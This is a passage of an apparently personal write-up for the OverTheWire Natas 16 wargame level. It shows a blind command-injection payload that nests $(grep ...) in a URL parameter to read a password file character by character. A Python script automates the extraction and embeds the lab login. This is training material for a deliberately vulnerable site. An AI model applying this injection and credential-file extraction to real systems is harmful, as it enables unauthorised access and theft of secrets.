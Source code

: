 {% highlight bash %}
;&`\'"|
{% endhighlight %}

This makes things rather difficult for us. However we still have access to % and () meaning we can execute commands. Unfortunately the easy route of wgeting a PHP script and allowing it to grab our password for us didn't work so we are stuck with using greps functionality to do a blind lookup.

To do this we are going to insert another grep command that checks if a character is in a file if it is its going to append it to a word of our choice. The grep command looks as follows.

{% highlight bash %}
grep -i $(grep a /etc/natas_webpass/natas17)Doctor dictionary.txt
{% endhighlight %}

We know doctor exist in our dictionary. So what happens is the grep within $() is execute first if the letter is in an it will append it to the string Doctor making it aDoctor. Since there is no aDoctor in dictionary.txt we can assume that if Doctor is in our html then the character didn't match however if it isn't there then we have a match. Let’s modify the python code from the previous challenge to do this for us.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth

letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
solution = ""
noresult = False
for x in range(35):
    for c in letters:
        payload = "?needle="+"$(grep -E ^" + solution+c + ".* /etc/natas_webpass/natas17)Doctor"
        r = requests.get("http://natas16.natas.labs.overthewire.org"+payload, auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        if not "Doctor" in r.text:
            solution = solution + c
            print "Solution: " + solution
            break
print "Final: "+solution
{% endhighlight %}

We use regular expression flag of grep to ensure that we are searching from the beginning of the file and not the middle.
"Learned the hard way" After running we get our password.